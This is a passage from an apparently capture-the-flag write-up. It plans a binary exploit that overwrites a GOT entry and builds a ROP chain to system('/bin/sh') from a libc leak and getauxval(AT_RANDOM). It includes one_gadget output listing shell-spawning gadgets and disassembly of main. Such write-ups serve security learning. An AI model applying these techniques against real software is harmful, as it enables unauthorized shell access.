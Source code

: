 ## Rop Rop Rop

Initially the approach was to overwrite some entry in `GOT` with a `one-gadget` and then make the code call the chosen function corresponding to that `GOT`. There is for example an `exit` call in `test_failed`. However looking into the `one_gadgets` available (below), the constraints does not seem be easily fulfilled:

```
$ one_gadget libc.so.6
0x4c050 posix_spawn(rsp+0xc, "/bin/sh", 0, rbx, rsp+0x50, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL
  rbx == NULL || (u16)[rbx] == NULL

0xf2592 posix_spawn(rsp+0x64, "/bin/sh", [rsp+0x40], 0, rsp+0x70, [rsp+0xf0])
constraints:
  [rsp+0x70] == NULL
  [[rsp+0xf0]] == NULL || [rsp+0xf0] == NULL
  [rsp+0x40] == NULL || (s32)[[rsp+0x40]+0x4] <= 0

0xf259a posix_spawn(rsp+0x64, "/bin/sh", [rsp+0x40], 0, rsp+0x70, r9)
constraints:
  [rsp+0x70] == NULL
  [r9] == NULL || r9 == NULL
  [rsp+0x40] == NULL || (s32)[[rsp+0x40]+0x4] <= 0

0xf259f posix_spawn(rsp+0x64, "/bin/sh", rdx, 0, rsp+0x70, r9)
constraints:
  [rsp+0x70] == NULL
  [r9] == NULL || r9 == NULL
  rdx == NULL || (s32)[rdx+0x4] <= 0
```

We will instead try to ROP our way to a `system("/bin/sh")` call using the `libc` leak. The idea is to use `getauxval(AT_RANDOM)`, which returns a pointer on the stack. We will use this pointer to write to some offset on the stack. This offset will have to align such that when returning from some function, we can return/jump to our rop chain.

When looking at main, the `sub rsp, 0x10` will create a new stack frame and when the call occurs on `0x1337` (coincidence?), then because we overwrote `tests[0]`, we will jump back to main and make a new stack frame (without any cleaning).

```
00000000000012c8 <main>:
    12c8:	55                   	push   rbp
    12c9:	48 89 e5             	mov    rbp,rsp
    12cc:	48 83 ec 10          	sub    rsp,0x10
    [...]
    1333:	48 8b 04 02          	mov    rax,QWORD PTR [rdx+rax*1]
    1337:	ff d0                	call   rax
    1339:	b8 00 00 00 00       	mov    eax,0x0
    133e:	c9                   	leave
    133f:	c3                   	ret
```
